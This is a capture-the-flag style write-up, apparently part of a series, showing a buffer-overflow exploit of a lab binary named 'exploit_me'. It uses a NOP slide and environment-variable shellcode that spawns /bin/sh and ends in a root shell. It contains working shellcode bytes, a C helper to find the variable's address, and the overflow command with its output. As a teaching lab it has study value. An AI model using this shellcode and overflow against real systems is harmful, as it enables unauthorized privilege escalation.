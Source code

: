# NOPSlide to Shellcode execution

Branching off from [Writeup 1, part 6](../../writeup1/part6.md), instead of using a [ret2libc attack](https://infosecwriteups.com/ret2libc-attack-in-lin-3dfc827c90c3) we could use a [shellcode injection](https://en.wikipedia.org/wiki/Shellcode) from the same buffer overflow. For this to happen, we'll need to do few things, first creating the **SHELLCODE**.

```shell
  $> export SHELLCODE=`python -c 'print("\x90" * 1000 + "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80")'`
```

> This shellcode was found [here](https://0xrick.github.io/binary-exploitation/bof5/) but more working ones can be found on [shell-storm](http://shell-storm.org/shellcode/) or [exploit-db](https://www.exploit-db.com/). `\x90` is the OPCode for the [NOP](https://en.wikipedia.org/wiki/NOP_(code)#:~:text=In%20computer%20science%2C%20a%20NOP,protocol%20command%20that%20does%20nothing.) assembly instruction. It does literally nothing, simply telling to go to the next instruction. Chaining `NOP` up until some arbitrary address is called a [NOPSlide](https://en.wikipedia.org/wiki/NOP_slide).

Then, we'll need to find where this environment variable is stored in memory. For that nothing really difficult...

```C
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char** argv)
{
  printf("env address at %p\n", getenv(argv[1]));
  return (0);
}
```

> Simply prints the address of the env variable you gives as first parameter.

Now we retrieve the `SHELLCODE` address, convert it to little-endian and inject it in `exploit_me`.

```shell
  $> gcc -o printAddress find_env_variable.c
  $> ./printAddress SHELLCODE
  env address at 0xbffff864
  $> ./exploit_me `python -c 'print("0"*140 + "\xXX\xXX\xXX\xXX"[::-1])'`
  # id
  uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
  # whoami
  root
```

> We must give an adress (represented by `\xXX\xXX\xXX\xXX` slightly after the one that is given to us by the previous program, to slowly slide into our Shellcode.

One more time, we are root!
